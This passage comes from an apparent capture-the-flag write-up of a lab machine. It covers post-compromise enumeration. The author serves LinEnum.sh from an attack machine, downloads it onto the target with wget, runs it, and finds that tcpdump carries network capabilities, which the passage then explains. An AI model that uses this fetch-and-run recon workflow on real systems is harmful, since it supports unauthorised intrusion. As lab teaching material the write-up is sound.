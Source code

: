To do that, let’s transfer the LinEnum script from our attack machine to the target machine. In the attack machine, start up a server in the same directory that the script resides in.

```text
python -m SimpleHTTPServer 5555
```

In the target machine, change to the _/tmp_ directory where we have write privileges and download the LinEnum script.

```text
cd /tmp
wget http://10.10.14.12:5555/LinEnum.sh
```

Give it execute privileges.

```text
chmod +x LinEnum.sh
```

Run the script.

```text
./LinEnum.sh
```

We see an interesting result pop up.

```text
[+] Files with POSIX capabilities set:
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

The _tcpdump_ binary is assigned the _cap\_net\_admin_ and _cap\_net\_raw_ capabilities. We can also manually check that using the _getcap_ command.

```text
[10.10.14.12@lightweight home]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
```

If you’re not familiar with linux capabilities, here’s a [great article](https://linux-audit.com/linux-capabilities-101/) that explains the concept in detail. As described in the article:

> Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently granted to processes. This way the full set of privileges is reduced and hence decreases the risk of exploitation.
